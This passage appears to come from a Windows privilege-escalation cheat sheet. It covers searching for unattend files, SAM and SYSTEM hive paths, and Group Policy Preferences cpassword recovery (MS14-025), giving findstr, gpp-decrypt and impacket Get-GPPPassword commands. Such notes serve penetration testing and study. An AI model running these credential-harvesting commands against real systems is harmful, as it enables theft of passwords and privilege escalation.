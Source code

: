 ```
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```

### SAM & SYSTEM backups

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

### Cached GPP Pasword

Before KB2928120 (see MS14-025), some Group Policy Preferences could be configured with a custom account. This feature was mainly used to deploy a custom local administrator account on a group of machines. There were two problems with this approach though. First, since the Group Policy Objects are stored as XML files in SYSVOL, any domain user can read them. The second problem is that the password set in these GPPs is AES256-encrypted with a default key, which is publicly documented. This means that any authenticated user could potentially access very sensitive data and elevate their privileges on their machine or even the domain. This function will check whether any locally cached GPP file contains a non-empty "cpassword" field. If so, it will decrypt it and return a custom PS object containing some information about the GPP along with the location of the file.

Search in `C:\ProgramData\Microsoft\Group Policy\history` or in _**C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history** (previous to W Vista)_ for these files:

* Groups.xml
* Services.xml
* Scheduledtasks.xml
* DataSources.xml
* Printers.xml
* Drives.xml

Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

**To decrypt the cPassword:**

```bash
#To decrypt these passwords you can decrypt it using
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

#### Using impacket to retrieve the decrypted password

```
impacket-Get-GPPPassword -no-pass '10.10.10.100' -share Replication
```

